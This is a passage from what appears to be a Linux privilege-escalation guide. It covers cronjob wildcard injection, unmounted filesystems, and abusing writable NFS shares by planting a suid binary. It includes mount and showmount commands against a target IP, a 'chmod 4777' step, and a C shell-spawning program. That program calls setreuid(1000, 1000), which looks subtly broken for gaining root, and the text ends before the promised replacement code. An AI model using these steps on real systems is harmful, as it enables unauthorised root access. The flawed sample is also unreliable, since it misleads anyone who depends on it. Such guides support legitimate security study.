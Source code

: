 Ocassionally within these cronjobs, certain running programs may have been coded poorly.  It is highly recommended to refer to the bible of Linux wildcard injection: [https://www.defensecode.com/public/DefenseCode\_Unix\_WildCards\_Gone\_Wild.txt](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) when checking for issues in cronjobs.

### Unmounted filesystems

Here we are looking for any unmounted filesystems. If we find one we mount it and start the priv-esc process over again.

```
mount -l
cat /etc/fstab
```

### NFS Share

If you find that a machine has a NFS share you might be able to use that to escalate privileges. Depending on how it is configured.

```
# First check if the target machine has any NFS shares
showmount -e 192.168.1.101

# If it does, then mount it to you filesystem
mount 192.168.1.101:/ /tmp/
```

If that succeeds then you can go to `/tmp/share`. There might be some interesting stuff there. But even if there isn't you might be able to exploit it.

If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:

```bash
chmod 4777 exploit
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
    setreuid(1000, 1000);
    printf("ID: %d\n", geteuid());
    execve("/bin/sh", NULL, NULL);
}
```

Note that this type of exploit will not always work.  The above sets the uid, but upon actually executing the script, you may find that you still maintain the same privileges.  I believe that bash can drop permissions to what's known as the effective-uid to avoid suid vulnerabilities as above.  In this case, the best bet is to use the below code which just goes overboard.

